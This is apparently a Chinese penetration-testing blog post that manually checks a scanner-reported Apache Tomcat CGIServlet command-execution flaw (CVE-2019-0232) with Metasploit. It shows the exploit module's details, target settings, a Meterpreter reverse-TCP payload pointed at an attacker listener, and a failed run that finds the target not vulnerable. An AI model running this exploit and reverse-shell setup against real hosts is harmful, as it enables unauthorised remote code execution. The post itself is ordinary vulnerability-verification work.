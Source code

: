 ```yaml
---
title: Apache Tomcat CGIServlet漏洞测试
published: true
---
```


---
# Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability

针对极光扫描器探测出的tomcat漏洞进行一次 `手工复测` .


### 所用到的工具  
> *msf*  
> *火狐浏览器*


#### 目标网站分析
目标所使用的中间件采用 `Apache Tomcat/7.0.82`

![](https://raw.githubusercontent.com/cer1vk/cer1vk.github.io/cer1vk/_posts/1.png)

#### 准备

* 工具库查看

> msf5 > search Rank:excellent name:tomcat
> 3  exploit/windows/http/tomcat_cgi_cmdlineargs  2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability

#### 载荷info
```ruby
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > info

       Name: Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability
     Module: exploit/windows/http/tomcat_cgi_cmdlineargs
   Platform: Windows
       Arch: x86, x64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2019-04-10

Provided by:
  Yakov Shafranovich
  sinn3r <sinn3r@metasploit.com>

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
  Id  Name
  --  ----
  0   Apache Tomcat 9.0 or prior for Windows

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      8080             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       The URI path to CGI script
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  This module exploits a vulnerability in Apache Tomcat's CGIServlet
  component. When the enableCmdLineArguments setting is set to true, a
  remote user can abuse this to execute system commands, and gain
  remote code execution.

References:
  https://cvedetails.com/cve/CVE-2019-0232/
  https://wwws.nightwatchcybersecurity.com/2019/04/30/remote-code-execution-rce-in-cgi-servlet-apache-tomcat-on-windows-cve-2019-0232/
  https://blog.trendmicro.com/trendlabs-security-intelligence/uncovering-cve-2019-0232-a-remote-code-execution-vulnerability-in-apache-tomcat/

```
#### 分析和利用
> Platform: Windows
> Arch: x86, x64 //符合64位处理器要求
- 填充目标地址 `RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'`  
- 填充目标端口 `RPORT      8080             yes       The target port (TCP)`,这里的端口改用实际的项目端口8181.

---  
设定目标参数和HK机参数,然后开始:

***目标机配置如下:***
```ruby
   Module options (exploit/windows/http/tomcat_cgi_cmdlineargs):
   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     IP     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8181             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI path to CGI script
   VHOST                       no        HTTP server virtual host
```

***HK机配置如下:***
```ruby
   Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     IP+    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

***

#### 验证结果
```ruby
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > run
[*] Started reverse TCP handler on IP+:4444
[*] Checking if IP is vulnerable
[-] Exploit aborted due to failure: not-vulnerable: Target is not vulnerable. Set ForceExploit to override.
[*] Exploit completed, but no session was created.
```
exp验证不通过.*说明目标不存在该漏洞*




#### 目标状态
![](https://raw.githubusercontent.com/cer1vk/cer1vk.github.io/cer1vk/_posts/2.png)


### 总结

针对漏洞扫描器给出的漏洞分析结果,对于精确度还是存疑的,这时候需要手工进行一次  `POC` 或者 `EXP`验证.如果验证的结果没能获取起初希望看到的效果,说明当下目标漏洞不可利用.
